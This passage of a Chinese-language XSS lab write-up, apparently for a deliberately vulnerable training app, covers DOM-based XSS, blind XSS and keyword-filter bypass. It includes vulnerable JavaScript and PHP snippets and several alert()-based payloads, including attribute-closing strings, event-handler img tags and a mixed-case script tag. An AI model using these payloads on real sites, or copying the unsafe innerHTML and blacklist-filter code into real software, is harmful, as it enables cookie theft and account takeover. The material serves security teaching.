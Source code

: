 ```js 
<script>
    function domxss(){
        var str = window.location.search;
        var txss = decodeURIComponent(str.split("text=")[1]);
        var xss = txss.replace(/\+/g,' ');
    	// alert(xss);
        document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";
    }
    //试试：'><img src="#" onmouseover="alert('xss')">
    //试试：' onclick="alert('xss')">,闭合掉就行
</script>
```

解题思路1：利用绕过、闭合操作：

```js
'><img src="#" onmouseover="alert('hack')">
```

```js
' onclick="alert('hack')"
```



## 六. XSS之盲打

之所以称为XSS盲打，是因为在提交数据后，前端是看不到输入的内容及效果的，只有后端管理员可以看见，当管理员触发盲打被 X 到的话，危害是非常大的，很可能造成管理员的 cookie 泄露，进而使攻击者可以通过管理员权限登录网站后台。

```js
<script>alert('hack')</script>
```



## 七. XSS之过滤

通过输入 `<script>alert('hack')</script>` 后，发现网页仅显示 `'>>'`，即后端过滤掉了 js 关键字 `script`

解题思路 1：注入带有事件属性的 img 标签

```html
<img src="#" onmouseover="alert('hack')">
```

解题思路 2：关键字大小写混合绕过（赌写后端代码的程序员非常...好吧实际上的确是...）

```html
<SCriPt>alert('hack')</SCriPt>
```

顺手展示下后端用于过滤 js 关键字的代码吧：

```php
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
	//$message=str_ireplace('<script>',$_GET['message']);
    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }
}
```
